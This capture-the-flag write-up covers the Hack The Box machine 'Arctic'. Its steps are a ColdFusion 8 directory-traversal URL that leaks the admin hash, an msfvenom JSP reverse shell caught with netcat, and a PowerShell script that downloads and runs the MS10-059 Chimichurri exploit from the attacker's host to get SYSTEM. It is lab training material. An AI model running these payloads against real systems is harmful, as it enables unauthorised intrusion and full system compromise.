




---
search:
  exclude: true
---
# Arctic Writeup

## Introduction :

Arctic is an easy Windows box released back in March 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions. The additional -Pn tells nmap that to skip the ping probes, because the box could be blocking them and because we know that the box is actually online.
    
    
      **λ nihilist [~/_HTB/Beep] → nmap 10.10.10.11 -sC -sV -Pn**
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-09 21:58 CET
      Nmap scan report for 10.10.10.11
      Host is up (0.033s latency).
    
      PORT      STATE SERVICE VERSION
      135/tcp   open  msrpc   Microsoft Windows RPC
      8500/tcp  open  fmtp?
      49154/tcp open  msrpc   Microsoft Windows RPC
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 133.85 seconds
    
    

We don't get that much to work with, but we will investigate the 8500th port for the next part. 

## **Part 2 : Getting User Access**

Let's investigate the 8500th port by checking what lies at the following url :  http://10.10.10.11:8500/

We'll test it by opening up our web browser, and using the curl command.  Let's use the following syntax : **curl -vsk http://10.10.10.11:8500**
    
    
      **λ nihilist [ 127.0.0.1 ] [~] → curl --help**
      -k, --insecure      Allow insecure server connections when using SSL
      -s, --silent        Silent mode
      -v, --verbose       Make the operation more talkative
    
    
    
      **λ nihilist [ 127.0.0.1 ] [~] → curl -vsk http://10.10.10.11:8500/**
      *   Trying 10.10.10.11:8500...
      * TCP_NODELAY set
      * Connected to 10.10.10.11 (10.10.10.11) port 8500 (#0)
      > GET / HTTP/1.1
      > Host: 10.10.10.11:8500
      > User-Agent: curl/7.66.0
      > Accept: */*
      >
      * Mark bundle as not supporting multiuse
      * HTTP 1.0, assume close after body
      < HTTP/1.0 200 OK
      < Date: Tue, 12 Nov 2019 17:38:14 GMT
      < Content-Type: text/html; charset=utf-8
      < Connection: close
      **< Server: JRun Web Server**
      <
    
      [Webpage Sourcecode [...]]
    

Now we know that 10.10.10.11 is running JRun Web Server at the port 8500. let's open it using our web browser to see what we can do there. 

  

By opening up the aforementioned URL in our web browser, we navigate to a ColdFusion8 login page through the directories **cfide/administrator**. By doing a quick searchsploit command using the keyword Coldfusion, we see that the service may be vulnerable to Directory Traversal Attacks.
    
    
    **λ nihilist [ 127.0.0.1 ] [~] → searchsploit ColdFusion 8**
    --------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                             |  Path
                                                                               | (/usr/share/exploitdb/)
    --------------------------------------------------------------------------- ----------------------------------------
    **Adobe ColdFusion - Directory Traversal (Metasploit)                        | exploits/multiple/remote/16985.rb**
    Adobe ColdFusion 2018 - Arbitrary File Upload                              | exploits/multiple/webapps/45979.txt
    Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cr | exploits/cfm/webapps/33170.txt
    Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.c | exploits/cfm/webapps/33167.txt
    Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query | exploits/cfm/webapps/33169.txt
    Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?sta | exploits/cfm/webapps/33168.txt
    Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remo | exploits/windows/remote/43993.py
    ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)          | exploits/cfm/webapps/16788.rb
    ColdFusion MX - Missing Template Cross-Site Scripting                      | exploits/cfm/remote/21548.txt
    Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure  | exploits/multiple/remote/22867.pl
    --------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

By navigating to the exploit n°16985 on exploitdb, we see that we should be able to try a certain URL exploiting Coldfusion's assumed Directory Traversal Vulnerability. The URL to be tried is the following :
    
    
    http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../ColdFusion8/lib/password.properties%00en
    

You can see that this is indeed a Directory Traversal Vulnerability, because it is using the **../** special characters to change directory, going up the directory tree, in order to reach the root **/** directory. The difference with Local File Inclusion vulnerabilities, is that you have to use **../** to go up the directory tree. with LFI you could start with the root folder / and go down from there e.g : **/etc/passwd** The URL ends with a null byte ( **%00**) in order to end the string. For example: myCoolScript.php%00.txt - Meets .txt, but is going to execute .php  for that matter, the "en" is there to meet the script's requirement but it ends right before that thanks to the null byte.

Although the RFI (Remote File Inclusion) Vulnerability would allow us much more flexibility in terms of exploiting vulnerable targets, they remain very rare, because it is very easy to make sure that there is no http in the include page. 

(Special Thanks to Reelix for the technical details.) 

The Directory Traversal Vulnerability was successful, now we have a Hash to work with.  We will be using the hash-identifier command to identify the hash's encryption algorithm. 
    
    
      λ nihilist [ 127.0.0.1 ] [~] → hash-identifier
         #########################################################################
         #     __  __                     __           ______    _____           #
         #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
         #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
         #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
         #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
         #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
         #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
         #                                                             By Zion3R #
         #                                                    www.Blackploit.com #
         #                                                   Root@Blackploit.com #
         #########################################################################
      --------------------------------------------------
       HASH: **2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03**
    
      Possible Hashs:
      **[+] SHA-1**
      [+] MySQL5 - SHA-1(SHA-1($pass))
    

Paste the Hash into your favorite web-browser along with the SHA-1 keyword, and you should easily find the original "happyday" password. 

We will now log into the ColdFusion8 Login form using our freshly-acquired credentials **admin:happyday**

Once on the coldfusion Dashboard, logged in as admin, we will upload a reverse shell tcp that we will generate using the msfvenom command, naming it as shell.jsp. The Scheduled task will download the shell.jsp payload , so we will need python to run the http server for us within a second terminal. We will upload it as a scheduled task, browse to it within our web browser, and catch the incoming reverse shell connection using the netcat command.

_Terminal n°1:_
    
    
      **λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Arctic] → msfvenom -p java/jsp_shell_reverse_tcp \
      > LHOST=10.10.14.48 \
      > LPORT=443 \
      > -f raw > shell.jsp**
      Payload size: 1496 bytes
    
      **λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Arctic] → su**
      Password:
    
      **λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Arctic] → nc -lvnp 443**
    

 _Terminal n°2:_
    
    
      **λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Arctic] → python -m http.server 8000**
      Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
      10.10.10.11 - - [11/Nov/2019 13:57:02] "GET /shell.jsp HTTP/1.1" 200 -
    

The box successfully downloaded our shell.jsp !  now we will browse to it , and observe our first terminal receieve the shell connection.

 _Terminal n°1:_
    
    
      **λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Arctic] → nc -lvnp 443**
      ls
      Connection from 10.10.10.11:54438
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
      **C:\ColdFusion8\runtime\bin>whoami**
      whoami
      arctic\tolis
    

We now have a reverse shell, logged as the user tolis, we can now print out the user flag. 
    
    
      **C:\ColdFusion8\runtime\bin>more C:\Users\tolis\Desktop\user.txt**
    
      more C:\Users\tolis\Desktop\user.txt
      02XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Part 3 : Getting Root Access**

Now we need to escalate privileges onto the box. For that matter we can use a binary named "chimichurri.exe" which takes advantage of the vulnerability MS10-059 available on this machine, we can verify it by typing in the **systeminfo** command
    
    
      **C:\ColdFusion8\runtime\bin>systeminfo**
      systeminfo
    
      Host Name:                 ARCTIC
      **OS Name:                   Microsoft Windows Server 2008 R2 Standard**
      OS Version:                6.1.7600 N/A Build 7600
      OS Manufacturer:           Microsoft Corporation
      OS Configuration:          Standalone Server
      OS Build Type:             Multiprocessor Free
      Registered Owner:          Windows User
      Registered Organization:
      Product ID:                55041-507-9857321-84451
      Original Install Date:     22/3/2017, 11:09:45 ��
      System Boot Time:          12/11/2019, 1:11:38 ��
      System Manufacturer:       VMware, Inc.
      System Model:              VMware Virtual Platform
      System Type:               x64-based PC
      Processor(s):              2 Processor(s) Installed.
                                 [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                                 [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
      BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
      Windows Directory:         C:\Windows
      System Directory:          C:\Windows\system32
      Boot Device:               \Device\HarddiskVolume1
      System Locale:             el;Greek
      Input Locale:              en-us;English (United States)
      Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
      Total Physical Memory:     1.023 MB
      Available Physical Memory: 370 MB
      Virtual Memory: Max Size:  2.047 MB
      Virtual Memory: Available: 1.281 MB
      Virtual Memory: In Use:    766 MB
      Page File Location(s):     C:\pagefile.sys
      Domain:                    HTB
      Logon Server:              N/A
      **Hotfix(s):                 N/A**
      Network Card(s):           1 NIC(s) Installed.
                                 [01]: Intel(R) PRO/1000 MT Network Connection
                                       Connection Name: Local Area Connection
                                       DHCP Enabled:    No
                                       IP address(es)
                                       [01]: 10.10.10.11
    

We see that this machine is vulnerable to the aforementionned binary exploit, because : -it is running Microsoft Windows Server 2008 R2 -There are no Hotfixes installed on the machine.

The lack of Hotfixes indicates a serious lack of security, which would allow an attacker (us) to escalate priveleges on the machine. 

As it is detailed in this [bulletin report](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2010/ms10-059), the hotfix KB982799 is required to fix the MS10-059 vulnerability

To be able to get chimmichurri.exe on this machine, we will need to write a ps1 script that will download the binary on our machine, serving a simple http server with python. to be able to execute our privesc binary we first need to check if we can write .ps1 files on the machine.
    
    
      **C:\ColdFusion8\runtime\bin>echo test >> xd.ps1**
      echo test >> xd.ps1
    
      C:\ColdFusion8\runtime\bin>more xd.ps1
      more xd.ps1
      test
    

We have been able to put the line "test" into our ps1 file named xd. 

Now we will make a file named wget.ps1 that will contain the lines required to download chimmichurri.exe from 10.10.14.48 (our local machine).

_Terminal 1:_
    
    
    **C:\ColdFusion8\runtime\bin>echo $webclient = New-Object System.Net.WebClient >> wget.ps1**
    echo $webclient = New-Object System.Net.WebClient >> wget.ps1
    
    **C:\ColdFusion8\runtime\bin>dir**
    dir
     Volume in drive C has no label.
     Volume Serial Number is F88F-4EA5
    
     Directory of C:\ColdFusion8\runtime\bin
    
    12/11/2019  11:22 ��    **IR>          .
    12/11/2019  11:22 ��    **IR>          ..
    18/03/2008  11:11 ��            64.512 java2wsdl.exe
    19/01/2008  09:59 ��         2.629.632 jikes.exe
    18/03/2008  11:11 ��            64.512 jrun.exe
    18/03/2008  11:11 ��            71.680 jrunsvc.exe
    18/03/2008  11:11 ��             5.120 jrunsvcmsg.dll
    18/03/2008  11:11 ��            64.512 jspc.exe
    22/03/2017  08:53 ��             1.804 jvm.config
    18/03/2008  11:11 ��            64.512 migrate.exe
    18/03/2008  11:11 ��            34.816 portscan.dll
    18/03/2008  11:11 ��            64.512 sniffer.exe
    12/11/2019  11:22 ��                47 wget.ps1
    18/03/2008  11:11 ��            78.848 WindowsLogin.dll
    18/03/2008  11:11 ��            64.512 wsconfig.exe
    22/03/2017  08:53 ��             1.013 wsconfig_jvm.config
    18/03/2008  11:11 ��            64.512 wsdl2java.exe
    12/11/2019  11:18 ��                 7 xd.ps1
    18/03/2008  11:11 ��            64.512 xmlscript.exe
                  17 File(s)      3.339.063 bytes
                   2 Dir(s)  33.189.847.040 bytes free
    
    **C:\ColdFusion8\runtime\bin>more wget.ps1**
    more wget.ps1
    $webclient = New-Object System.Net.WebClient
    
    **C:\ColdFusion8\runtime\bin>echo $url = "http://10.10.14.48:8000/ChimiChurri.exe" >> wget.ps1**
    echo $url = "http://10.10.14.48:8000/ChimiChurri.exe" >> wget.ps1
    
    **C:\ColdFusion8\runtime\bin>more wget.ps1**
    more wget.ps1
    $webclient = New-Object System.Net.WebClient
    $url = "http://10.10.14.48:8000/ChimiChurri.exe"
    
    **C:\ColdFusion8\runtime\bin>echo $file = "exploit.exe" >> wget.ps1**
    echo $file = "exploit.exe" >> wget.ps1
    
    **C:\ColdFusion8\runtime\bin>echo $webclient.DownloadFile($url,$file) >> wget.ps1**
    echo $webclient.DownloadFile($url,$file) >> wget.ps1
    
    
    
    **C:\ColdFusion8\runtime\bin>more wget.ps1**
    more wget.ps1
    $webclient = New-Object System.Net.WebClient
    $url = "http://10.10.14.48:8000/ChimiChurri.exe"
    $file = "exploit.exe"
    $webclient.DownloadFile($url,$file)
    
    
    
    **C:\ColdFusion8\runtime\bin>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1**
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
    ^CExiting.
    
    **λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Arctic] → nc -lvnp 443**
    Connection from 10.10.10.11:54538
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    **C:\ColdFusion8\runtime\bin>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1**
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
    
    

_Terminal 2:_
    
    
      **λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Arctic] → python -m http.server 8000**
      Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
      10.10.10.11 - - [11/Nov/2019 14:25:32] "GET /shell.jsp HTTP/1.1" 200 -
      10.10.10.11 - - [11/Nov/2019 14:26:37] "GET /ChimiChurri.exe HTTP/1.1" 200 -
    

The download has been successful !  Now all that we need to do is launch exploit.exe and recieve the elevated privilege reverse shell to our third terminal with the netcat command.

_Terminal 1:_
    
    
      **C:\ColdFusion8\runtime\bin>exploit.exe 10.10.14.48 9001**
      exploit.exe 10.10.14.48 9001
    /Chimichurri/-->This exploit gives you a Local System shell   
    /Chimichurri/-->Changing registry values...  
    /Chimichurri/-->Got SYSTEM token...  
    /Chimichurri/-->Running reverse shell...  
    /Chimichurri/-->Restoring default registry values...  
    
    

_Terminal 3:_
    
    
      **λ nihilist [ 10.10.14.48/23 ] [~] → nc -lvnp 9001**
      whoami
      Connection from 10.10.10.11:54563
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
      **C:\ColdFusion8\runtime\bin>whoami**
      nt authority\system
    
      **C:\ColdFusion8\runtime\bin>more C:\Users\Administrator\Desktop\root.txt**
      more C:\Users\Administrator\Desktop\root.txt
      ceXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

